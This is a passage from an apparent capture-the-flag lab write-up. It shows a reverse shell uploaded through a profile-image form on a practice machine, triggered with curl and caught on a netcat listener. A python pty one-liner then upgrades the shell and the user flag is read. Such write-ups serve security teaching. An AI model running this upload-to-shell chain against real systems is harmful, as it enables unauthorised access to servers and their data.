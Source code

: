 After doing so, just click on "EDIT PROFILE" and the reverse shell will be uploaded. Now in order to call the shell, we need to know where the file is stored in.

I originally found it using `burp`, but we can also find it in the source code of `/v2/profile.php` in a comment:

~~~
└─$ curl -s "http://10.10.237.166/v2/profile.php" | grep "v2/p" 
<!-- /v2/profileimages/ -->
~~~

Now we know that the reverse shell can be accessed from `http://<MACHINE IP>/v2/profileimages/<SHELL NAME>`. So just open a listener (`rlwrap nc -lvnp 4444`) and browse the url above and you should receive a shell.

I used `curl` to call the shell:

~~~
└─$ curl http://10.10.237.166/v2/profileimages/shell.php
~~~

Now I have a shell on my listener:

~~~
└─$ rlwrap nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.237.166] 56562
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 11:37:06 up 27 min,  0 users,  load average: 0.00, 0.00, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
~~~

The first thing I did was spawning a TTY shell using a python one-liner:

~~~
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@sky:/$
~~~

## User Flag

I listed the `/home` directory and there is only one user named `webdeveloper`:

~~~
www-data@sky:/$ ls /home
webdeveloper
~~~

I headed to this user's home directory and found the user flag:

~~~
www-data@sky:/$ cd /home/webdeveloper
www-data@sky:/home/webdeveloper$ ls
user.txt
www-data@sky:/home/webdeveloper$ cat user.txt
63191e4ece37523c9fe6bb62a5e64d45
~~~
